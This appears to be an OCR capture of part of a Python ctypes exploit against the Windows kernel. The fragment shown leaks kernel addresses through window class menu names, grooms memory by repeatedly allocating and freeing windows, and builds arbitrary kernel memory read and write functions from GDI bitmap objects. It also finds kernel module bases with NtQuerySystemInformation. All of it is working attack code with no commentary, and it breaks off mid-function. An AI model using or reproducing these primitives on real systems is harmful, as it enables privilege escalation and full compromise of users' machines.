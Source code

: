 ```

    # Calculate user-land tagCLS location: tagCLS - ulClientDelta
    userTagCLS = kernelTagCLS - ulClientDelta

    # Calculate kernel-land tagCLS.lpszMenuName
    tagCLS_lpszMenuName = (cast (userTagCLS+0x90, POINTER(c_ulonglong))).contents.value

    # Destroy Window
    user32.DestroyWindow(hWnd)

    # Unregister Class
    user32.UnregisterClassW(c_wchar_p("Class_" + str(classNumber)), hInst)

    return tagCLS_lpszMenuName

def alloc_free_windows():
    """ Calls alloc_free_window() until current address matches previous one """
    global classNumber

    previous_entry = 0

    while (1):
        plpszMenuName = allocate_free_window()
        if previous_entry == plpszMenuName:
            return plpszMenuName
        previous_entry = plpszMenuName
        classNumber = classNumber + 1

def write_mem(dest, src, length):
    global hManager
    global hWorker

    write_buf = c_ulonglong(dest)
    gdi32.SetBitmapBits(HBITMAP(hManager), c_ulonglong(sizeof(write_buf)), LPVOID(addressof(write_buf)));
    gdi32.SetBitmapBits(HBITMAP(hWorker), c_ulonglong(length), src)

def read_mem(src, dest, length):
    global hManager
    global hWorker

    write_buf = c_ulonglong(src)
    gdi32.SetBitmapBits(HBITMAP(hManager), c_ulonglong(sizeof(write_buf)), LPVOID(addressof(write_buf)));
    gdi32.GetBitmapBits(HBITMAP(hWorker), c_ulonglong(length), dest)

def find_kernelBase(input_modules):
    modules = `{``}`

    # Allocate arbitrary buffer and call NtQuerySystemInformation
    system_information = create_string_buffer(0)
    systeminformationlength = c_ulong(0)
    ntdll.NtQuerySystemInformation(11, system_information, len(system_information), byref(systeminformationlength))

    # Call NtQuerySystemInformation second time with right size
    system_information = create_string_buffer(systeminformationlength.value)
    ntdll.NtQuerySystemInformation(11, system_information, len(system_information), byref(systeminformationlength))

    # Read first 4 bytes which contains number of modules retrieved
    module_count = c_ulong(0)
    module_count_string = create_string_buffer(system_information.raw[:8])
```